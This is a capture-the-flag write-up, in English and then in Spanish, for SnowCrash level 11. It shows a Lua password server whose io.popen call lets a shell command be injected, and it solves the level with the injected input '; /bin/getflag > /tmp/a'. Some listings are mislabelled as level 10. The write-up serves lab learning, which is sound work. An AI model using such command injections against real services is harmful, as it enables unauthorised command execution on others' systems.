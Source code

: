 ### LEVEL11 (BONUS)

- We have a Lua script and a token.
    ```bash
    level10@SnowCrash:~$ ls -la
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- `cat level11.lua` We have a script that seems to open a connection on `127.0.0.1:5151`.

- We check if it's running.
    ```bash
    level11@SnowCrash:~$ nc -vz 127.0.0.1 5151
    Connection to 127.0.0.1 5151 port [tcp/pcrd] succeeded!
    ```

- We see that it's running.

- We connect.
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: 1234
    rf nope..
    ```

- We investigate the script.

- We see that the script accepts a connection, requests a password, then passes it through the hash function that returns a SHA1 hash.
    ```lua
    1	#!/usr/bin/env lua
    2	local socket = require("socket")
    3	local server = assert(socket.bind("127.0.0.1", 5151))
    [...]
    17	  local client = server:accept()
    18	  client:send("Password: ")
    19	  client:settimeout(60)
    20	  local l, err = client:receive()
    21	  if not err then
    22	      print("trying " .. l)
    23	      local h = hash(l)
    [...]
     5	function hash(pass)
     6	  prog = io.popen("echo "..pass.." | sha1sum", "r")
     7	  data = prog:read("*all")
     8	  prog:close()
     9	
    10	  data = string.sub(data, 1, 40)
    11	
    12	  return data
    13	end
    [...]

- Then it checks with an if statement if the hash returned by the function matches a hash.

- But the if or the else statement only display some strings, it's a rabbit hole.
    ```lua
    [...]
    25	      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
    26	          client:send("Erf nope..\n");
    27	      else
    28	          client:send("Gz you dumb*\n")
    29	      end
    [...]
    ```

- The attack vector lies within the hash(pass) function.
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end
    ```

- `io.popen` executes a system command.
    ```lua
    [...]
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    [...]
    ```

- In this case, it would execute an `echo "..pass.." | sha1sum`, where `..pass..` is the string we pass when prompted for the password.

- It's possible to execute arbitrary commands through injection.

- We need it to execute `/bin/getflag > /tmp/a`.

- If we insert `; /bin/getflag > /tmp/a` when prompted for the password, the hash function would become:
    ```lua
    io.popen("echo " ; /bin/getflag > /tmp/a " | sha1sum", "r")
    ```

- Luego podriamos ver el resultado en /tmp/a

- Vamos a ello:
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: ; /bin/getflag > /tmp/a
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/a
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
    ```

---

### LEVEL11 (BONUS)

- Tenemos un script en lua y un token
    ```bash
    level10@SnowCrash:~$ ls -la
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- `cat level11.lua` tenemos un script que parece abrir una conexion en `127.0.0.1:5151`.

- comprobamos si está en en ejecucion
    ```bash
    level11@SnowCrash:~$ nc -vz 127.0.0.1 5151
    Connection to 127.0.0.1 5151 port [tcp/pcrd] succeeded!
    ```

- Vemos que está en funcionamiento

- Nos conectamos:
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: 1234
    rf nope..
    ```

- Investigamos el script

- Vemos que el script acepta una conexion, solicita una password, la pasa por la funcion hash que retorna un sh1 
    ```lua
    1	#!/usr/bin/env lua
    2	local socket = require("socket")
    3	local server = assert(socket.bind("127.0.0.1", 5151))
    [...]
    17	  local client = server:accept()
    18	  client:send("Password: ")
    19	  client:settimeout(60)
    20	  local l, err = client:receive()
    21	  if not err then
    22	      print("trying " .. l)
    23	      local h = hash(l)
    [...]
     5	function hash(pass)
     6	  prog = io.popen("echo "..pass.." | sha1sum", "r")
     7	  data = prog:read("*all")
     8	  prog:close()
     9	
    10	  data = string.sub(data, 1, 40)
    11	
    12	  return data
    13	end
    [...]
    ```

- Luego comprueba con un if si el hash que retorna la funcion coincide con un hash

- Pero el if o el else solo muestra unas cadenas, es un rabbit hole
    ```lua
    [...]
    25	      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
    26	          client:send("Erf nope..\n");
    27	      else
    28	          client:send("Gz you dumb*\n")
    29	      end
    [...]
    ```

- El vector de atacque está en la funcion hash(pass)
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end
    ```

- `io.popen` ejecuta un comando del sistema
    ```lua
    [...]
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    [...]
    ```

- En este caso se ejecutaría un `echo "..pass.." | sha1sum` siendo `..pass..` la string que le pasamos cuando nos solicita la clave

- Es posible poder ejecutar un comando arbitrario por medio de in inyección

- necesitamos que ejecute `/bin/getflag > /tmp/a`

- Si cando nos pide la password insertamos `; /bin/getflag > /tmp/a` en la funcion hash nos quedaria:
    ```lua
    io.popen("echo " ; /bin/getflag > /tmp/a " | sha1sum", "r")
    ```

- Luego podriamos ver el resultado en /tmp/a

- Vamos a ello:
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: ; /bin/getflag > /tmp/a
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/a
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
    ```

